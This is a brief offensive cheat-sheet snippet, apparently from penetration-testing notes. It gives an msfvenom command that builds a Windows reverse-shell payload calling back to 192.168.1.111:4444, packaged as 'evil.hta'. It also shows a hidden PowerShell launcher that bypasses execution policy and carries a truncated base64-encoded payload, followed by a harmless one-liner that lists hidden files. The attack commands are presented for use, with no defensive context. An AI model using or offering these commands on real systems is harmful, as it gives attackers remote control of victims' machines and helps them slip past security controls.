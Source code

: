 ```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta

powershell.exe -nop -nolog -executionpolicy bypass -w hidden -e aQBmACgAWwBJAG4AdABQ.....
```

## Find all the hidden files:

Get-ChildItem -ErrorAction SilentlyContinue -R -H | ForEach { if ($_ -is [System.IO.FileInfo]) { Write-Host $_.FullName}}